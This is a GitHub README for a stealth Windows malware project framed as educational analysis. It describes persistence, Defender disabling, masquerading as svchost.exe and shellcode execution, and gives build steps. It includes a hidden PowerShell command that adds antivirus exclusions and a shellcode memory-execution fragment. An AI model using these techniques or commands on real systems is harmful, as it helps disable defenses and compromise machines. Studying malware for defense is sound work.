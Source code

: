 # 🔍 Windows Stealth Malware Analysis Project

This project demonstrates techniques used by stealthy malware for educational and research purposes, including:
- 🔐 Process relocation and persistence mechanisms
- 🛡️ Security evasion techniques
- 📁 Registry and filesystem manipulation
- 🧠 In-memory shellcode execution
- 🚫 Anti-debugging techniques

---

## ⚠️ IMPORTANT: Educational Purpose Only

This code is provided **STRICTLY FOR EDUCATIONAL PURPOSES** to demonstrate malware techniques for analysis and research. Running this code on systems without proper isolation may cause:
- Disabling of security features
- Unauthorized system changes
- Potential execution of embedded shellcode
- System compromise

**Always analyze in a secure, isolated environment such as a virtual machine with no network access.**

---

## ⚙️ Features Demonstrated

This sample demonstrates various malware techniques:

- **Process Persistence**
  - Registry autorun entries
  - Scheduled task creation
  - Startup folder shortcuts
  - VBS script launchers for silent execution

- **Defense Evasion**
  - Windows Defender disabling attempts
  - AV exclusion path configuration
  - Admin privilege escalation
  - Hidden execution techniques

- **Stealth Techniques**
  - Self-relocation to system directories
  - Anti-debugging checks
  - Silent error handling
  - Hidden process execution

- **Payload Execution**
  - AES encrypted shellcode
  - Memory allocation for code execution
  - Dynamic memory protection changes
  - Direct thread execution

---

## 🔧 Technical Analysis Setup

### Prerequisites

- Windows 10/11 VM (isolated from network)
- Visual Studio 2022 with .NET support
- DNSPY or other .NET decompiler
- Process Monitor and Process Explorer
- Wireshark (for network analysis)

### Step 1: Create an Isolated Analysis Environment

```powershell
# Enable Hyper-V if not already enabled
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Hyper-V -All

# Create a new VM with no network access for safe analysis
New-VM -Name "MalwareAnalysisVM" -MemoryStartupBytes 4GB -Generation 2
```

### Step 2: Set Up Project for Analysis

Clone this repository and open in Visual Studio:

```bash
git clone https://github.com/racxz/mal2.0.git
cd mal2.0
```

Review the key components:
- `Program.cs` - Main malware logic
- `app.manifest` - Requests admin privileges
- `MyMalwareApp.csproj` - Project configuration

### Step 3: Build with Required Admin Rights

The project uses an application manifest to request elevated privileges:

```xml
<!-- app.manifest -->
<requestedExecutionLevel level="requireAdministrator" uiAccess="false" />
```

Build the project:

```bash
dotnet publish -c Release -r win-x64 --self-contained true \
  -o analysis-build \
  /p:PublishSingleFile=true \
  /p:IncludeNativeLibrariesForSelfExtract=true
```

---

## 📊 Analysis Techniques

### Static Analysis

1. **Code Review**
   - Identify API calls related to memory manipulation
   - Locate system persistence mechanisms
   - Find encrypted content and decryption routines

2. **Resource Examination**
   - Check for embedded payloads in resources
   - Review application manifest for privilege requests
  
3. **String Analysis**
   - Search for registry keys
   - Identify filesystem paths
   - Look for command execution patterns

### Dynamic Analysis

1. **Process Monitoring**
   - Use Process Monitor to track filesystem/registry changes
   - Monitor child process creation
   - Watch for memory allocation patterns

2. **Debugging Techniques**
   - Bypass anti-debugging checks
   - Set breakpoints at key functions
   - Inspect memory at shellcode execution

3. **Network Analysis**
   - Monitor for connection attempts
   - Identify command and control patterns
   - Capture post-exploitation traffic

---

## 🧠 Code Breakdown

### Process Relocation Logic

```csharp
// Checks if this is initial run or relocated instance
if (isPayloadInstance || currentFilePath.Equals(destPath, StringComparison.OrdinalIgnoreCase))
{
    // Execute payload
}
else
{
    // Handle relocation to %AppData%\Microsoft\Windows\svchost.exe
}
```

### Persistence Mechanisms

```csharp
// Uses multiple persistence methods
bool scheduled = TryCreateScheduledTask(destPath);
if (!scheduled)
{
    // Fallback to registry persistence
    SetRegistryPersistence(destPath);
}
```

### AV Evasion Techniques

```csharp
// Attempts to disable Windows Defender
TryDisableDefender();

// Creates exclusion paths
ProcessStartInfo psi2 = new ProcessStartInfo
{
    FileName = "powershell.exe",
    Arguments = $"-WindowStyle Hidden -Command Add-MpPreference -ExclusionPath '{folderPath}' -Force"
    // ...
};
```

### Shellcode Execution

```csharp
// Memory allocation and execution
IntPtr baseAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT, PAGE_READWRITE);
// Copy shellcode
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
// Change protection and execute
VirtualProtect(baseAddress, (UIntPtr)shellcode.Length, PAGE_EXECUTE_READWRITE, out oldProtect);
```

---

## 📚 Further Reading

- [OWASP Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Security Response Center](https://www.microsoft.com/en-us/msrc)
- [Malware Analysis Techniques](https://github.com/rshipp/awesome-malware-analysis)

---

## 🛡️ Responsible Use

This project is provided solely for defensive security research, education and awareness. Understanding how malware operates is essential for developing stronger defenses and detection mechanisms.

Never use these techniques for unauthorized system access or malicious purposes.
